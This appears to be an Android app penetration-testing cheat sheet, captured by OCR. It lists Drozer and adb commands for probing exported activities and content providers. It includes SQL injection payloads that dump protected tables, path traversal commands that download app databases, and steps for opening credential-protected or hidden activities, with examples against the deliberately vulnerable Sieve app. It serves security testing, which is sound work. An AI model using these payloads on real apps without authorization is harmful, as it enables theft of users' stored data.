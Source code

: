            [THINGS TO REPORT]
                !) "is debuggable" output shows up (allows attaching a debugger to the process, using adb, and step through the code) 

    ---------
    ACTIVITES
    ---------
            [COMMANDS]
                DROZER
                    o) run app.activity.info -a com.x.x.x (display exported acitivities)
                    o) run app.activity.start --component com.x.x.x com.x.x.x.ActivityName (start activity)
                ADB
                    o) adb shell am start -n com.x.x.x/ActivityName
            
            [THINGS TO REPORT]
                !) Bypassed so called "protected" activites (i.e. creds needed) and access sensitive information
                !) Accessed "hidden" activities (if Admin-UI or Debug-UI was implemented)
    
    ----------------
    CONTENT PROVIDER
    ----------------
            [COMMANDS]
                DROZER
                    o) run app.provider.info -a com.x.x.x
                    o) run scanner.provider.finduris -a com.x.x.x (guesses paths & determines accessible content)
                    o) run app.provider.query content://&lt;URI&gt; --vertical (use uris from above or guess yourself)
                        o) in addition: .insert / .update / .delete (google for proper statements)
                    o) run scanner.provider.injection -a com.x.x.x (Test content providers for SQL injection vulnerabilities)
                    o) run scanner.provider.sqltables -a com.x.x.x (Find tables accessible through SQL injection vulnerabilities)
                    ----
                    SQLi
                    ----
                        o) run app.provider.query content://com.x.x.x.ProviderName/path/ --prjection "* FROM SQLITE_MASTER WHERE type='table';--" (list all db tables)
                        o) run app.provider.query content://com.x.x.x.ProviderName/path/ --projection "'" unrecognized token: "' FROM Passwords" (code 1): , while compiling: SELECT ' FROM Passwords
                        o) run app.provider.query content://com.x.x.x.ProviderName/path/ --selection "'" unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')
                        o) EXAMPLE:
                            o) run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--" (retreive data from otherwise protected tables)
                    -------------
                    FILESYSTEM-CP
                    -------------
                        o) run app.provider.download content://com.x.x.x.ProviderName/../../../../../../../../data/data/com.x.x.x/database.db /home/user/database.db (download db)
                        o) run scanner.provider.traversal -a com.x.x.x (find content provider that are susceptible to directory traversal)
                        o) run app.provider.read content://com.x.x.x.ProviderName/path/to/file
                        o) EXAMPLE:
                            o) run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts (/etc/hosts is world-readable -&gt; no biggy)
                            o) run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db /home/user/database.db
                ADB
                    o) adb shell content query --uri content:/com.x.x.x.ProviderName/file_or_path
            